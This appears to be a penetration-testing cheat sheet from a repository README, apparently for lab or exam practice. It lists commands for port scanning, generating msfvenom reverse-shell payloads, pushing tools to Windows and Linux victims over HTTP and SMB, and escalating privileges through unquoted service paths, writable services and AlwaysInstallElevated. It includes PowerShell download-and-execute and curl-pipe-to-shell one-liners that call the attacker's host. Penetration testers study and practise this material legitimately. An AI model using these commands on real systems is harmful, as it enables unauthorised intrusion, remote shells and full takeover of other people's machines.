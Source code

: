 ## Setting
1.export ip=10.10.10.10\
1.5 make directory for nmap result: mkdir nmap && cd nmap
## Ennumeration
2. `nmap -sC -sV -p- -Pn $ip --open -oN result   AND  rustscan -a $IP and rustscan -a $IP`.\ 
3. Check which ports are open. Take note of service running and versions(for searchsploit)\
4. Manual ennumeration. Visit the open ports to see if we can get initial foothold information. e.g anoymous login, default login,etc\
5. Check for vulnerabiltieis on specific ports using nmap script `nmap -p 80,445,139 --script=*vuln* $IP`
## Check for Vulnerabilities for port
0. Go to the differnet MD files in the repo.

## Getting a reverseshell / creating a stageless payload
0. `msfvenom -p windows/shell_reverse_tcp LHOST=myIP LPORT=1237 -f exe  -o reverse.exe` 
1. `msfvenom -p windows/shell_reverse_tcp LHOST=myIP LPORT=1234 -f asp -o reverse.asp` 

## File Transfer to Window victim
### File transfer via own web server
0. `python3 -m http.server 8080` from linux
1. `powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://myIP:80/winpeas.exe', 'winpeas.exe') -exec bypass` from window
2. `certutil.exe -urlcache -f  http://myIp:80/winpeas.exe` from window
### File Transfer via SMB
0. `mkdir share` and move files to transfer
1. `impacket-smbserver smb share/ ` from linux
2. `net use \\myIP\smb` from window
3. `copy \\myIP\smb\winpeas.exe   \windows\temp\winpeas.exe` 

 ## Privilege Escalation for Window
 0. Use PowerUp
 1. `Import-Module .\PowerUp.ps1`
 2. `Invoke-AllChecks`
 3. or `powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://myIP:80/PowerUp.ps1');Invoke-AllChecks"`
 4. Use WinPeas
 5. `winpeas.exe`
 ### Unquoted Service Path
 0. `Get-UnquotedService` or `wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """`
 1. or `sc qc unquotedsvc`
 2.`msfvenom -p windows/shell_reverse_tcp LHOST=myIP LPORT=LISTENINGPORT -f exe  -o Program.exe` (create a payload)
 3.`sc start unquotedsvc` or restart box.
 

 ### Writable Service Executable
  0.`Invoke-AllChecks`\
  1. `msfvenom -p window/shell_reverse_tcp LHOST=MyIP LPORT=LISTENINGPORT -f exe >service.exe`  (payload name has to be same as writable service) 

 ### AlwaysInstallElevate
 check if both values are 1.\
 0.`reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`\
 1.`reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`\
 2. `msfvenom -p window/shell_reverse_tcp LHOST=MyIP LPORT=LISTENINGPORT -f msi >payload.msi`  (create a payload) 
 3. Transfer payload to Temp and execute
 4. `msiexec /i "C:\Windows\Temp\payload.msi"`


 ### SeImpersonatePrivilege 

## File Transfer to Linux victim
0.`python3 -c 'import pty; pty.spawn("/bin/bash")'` `export TERM=xterm-256color` Stabalize shell \
1.`python3 -m http.server 8080` `or( 80)`
2.`cd /tmp` move directory where we have write access.
4.`wget http://$myIP:8080/linEum.sh .` \
7.Or manually download the latest linpeas https://github.com/carlospolop/PEASS-ng/releases/tag/20221225

## Privilege Escalation for Linux
0. `curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh` which would execute script (run from cd /tmp)
1. `chmod +x linpeas.sh` and `./linpeas.sh`


